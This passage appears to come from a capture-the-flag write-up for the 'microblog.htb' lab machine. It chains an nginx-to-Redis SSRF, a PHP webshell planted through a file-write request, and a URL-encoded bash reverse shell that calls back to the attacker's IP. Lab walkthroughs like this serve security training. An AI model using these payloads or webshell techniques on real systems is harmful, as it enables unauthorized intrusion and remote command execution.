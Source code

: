 #### Exploitation

1. After a user account (here: username `foo`) has been created, the **SSRF** vulnerability can be exploited to turn it into a pro user. To do this, we can send a forged [HSET request](https://redis.io/commands/hset/) to the Redis socket:
    
    ```bash
    curl -X "HSET" /static/unix:%2Fvar%2Frun%2Fredis%2Fredis%2Esock:foo%20pro%20true%20/
    ```
    - nginx sets the placeholder for `proxy_pass` accordingly so that the following request is executed:
        
        ```
        http://unix:/var/run/redis/redis.sock:foo pro true /.microbucket.htb/
        ```
    - the request therefore passes the HSET command `foo pro true` to `redis.sock`, making `foo` a pro user account
2. If you now create a blog with the Pro account, the function `provisionProUser()` is executed, which creates the directory `/uploads` with write permissions. The **LFI** exploit can now be used to upload a webshell `cmd.php` in this directory, which enables commands to be executed via POST parameters. To do that, we can send the following POST request to `/edit`:
    
    ```
    POST /edit/index.php HTTP/1.1
    Host: foo.microblog.htb
    User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 387
    Origin: http://foo.microblog.htb
    Connection: close
    Referer: http://foo.microblog.htb/edit/
    Cookie: username=o1tg5liv7pp287auh923b9e07s
    Upgrade-Insecure-Requests: 1

    id=/var/www/microblog/foo/uploads/cmd.php&txt=%3c%3f%70%68%70%20%69%66%28%69%73%73%65%74%28%24%5f%52%45%51%55%45%53%54%5b%27%63%6d%64%27%5d%29%29%7b%20%65%63%68%6f%20%22%3c%70%72%65%3e%22%3b%20%24%63%6d%64%20%3d%20%28%24%5f%52%45%51%55%45%53%54%5b%27%63%6d%64%27%5d%29%3b%20%73%79%73%74%65%6d%28%24%63%6d%64%29%3b%20%65%63%68%6f%20%22%3c%2f%70%72%65%3e%22%3b%20%64%69%65%3b%20%7d%3f%3e
    ```
    - The `txt` parameter is the webshell `PHP cmd 2` url-encoded from [revshells.com](https://revshells.com)
3. Now, we can executed commands via `http://foo.microblog.htb/uploads/shell.php?cmd=`. For example, to start a reverse shell:
    
    ```
    http://foo.microblog.htb/uploads/shell.php?cmd=%62%61%73%68%20%2d%63%20%27%2f%62%69%6e%2f%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%34%2e%36%2f%39%30%30%32%20%30%3e%26%31%27
    ```
    - the `cmd` parameter is URL-encoded `bash -c '/bin/sh -i >& /dev/tcp/<your ip>/9002 0>&1'` for creating a reverse shell
4. We now have reverse shell access for `www-data`.
